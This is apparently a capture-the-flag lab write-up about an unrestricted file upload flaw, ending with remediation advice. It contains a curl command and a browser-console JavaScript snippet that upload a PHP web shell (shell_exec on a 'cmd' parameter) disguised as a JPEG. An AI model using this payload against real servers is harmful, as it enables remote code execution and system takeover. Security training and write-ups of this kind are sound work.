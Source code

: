 # Breach: Arbitrary File Upload via MIME Type Spoofing

## Discovery & Exploit

The site includes a file upload form which claims to only accept `.jpg` images.

We attempted uploading various file types, and eventually tried uploading a `.php` file while spoofing the MIME type as `image/jpeg`.

Using `curl`, we submitted the following request:

```
curl -F "uploaded=@shell.php;type=image/jpeg" -F "Upload=Upload" http://192.168.1.101/?page=upload
```

The server did not perform backend validation of file contents or extension, and the file was successfully uploaded and interpreted as PHP.

Upon execution of the uploaded script, the server responded with:

``The flag is: [actual flag value]``

To simplify the process, we wrote a JavaScript snippet that replicates the upload directly from the browser console. This eliminates the need for external tools like `curl`.

> You can run the following script directly in the browser's developer console:

```javascript
// upload-image.js
const formData = new FormData();
formData.append("Upload", "Upload");
formData.append("uploaded", new File(["<?php echo shell_exec($_GET['cmd']); ?>"], "shell.php", { type: "image/jpeg" }));

fetch("http://192.168.1.101/?page=upload", {
  method: "POST",
  body: formData
}).then(res => res.text()).then(html => console.log("Uploaded. Check server response or path."));
```

## Vulnerability Details

This is a classic case of **unrestricted file upload**, where the server:

- Accepts a file based on MIME type or extension alone (client-side enforced)
- Fails to inspect or validate the file contents on the backend
- Stores and executes files in a web-accessible location

Combined, these flaws allow an attacker to upload a **malicious PHP script** under the guise of a `.jpg`, leading to **remote code execution** and full system compromise.

References:

- https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload
- https://portswigger.net/web-security/file-upload

## Remediation

1. Always validate file content types on the server side.
2. Never trust the MIME type or file extension provided by the client.
3. Store uploads outside of the web root when possible.
4. Rename uploaded files to prevent code execution.
5. Disallow executable file types entirely (e.g., `.php`, `.exe`, `.js`, `.jsp`).
6. Set appropriate Content-Disposition headers and file permissions.

---

<table width="100%">
  <tr>
    <td align="left"><a href="../Breach13_*/Ressources/writeup.md">← Previous: Breach13</a></td>
    <td align="center"><a href="../../README.md">↑ Back to README</a></td>
    <td align="right">Finish</td>
  </tr>
</table>
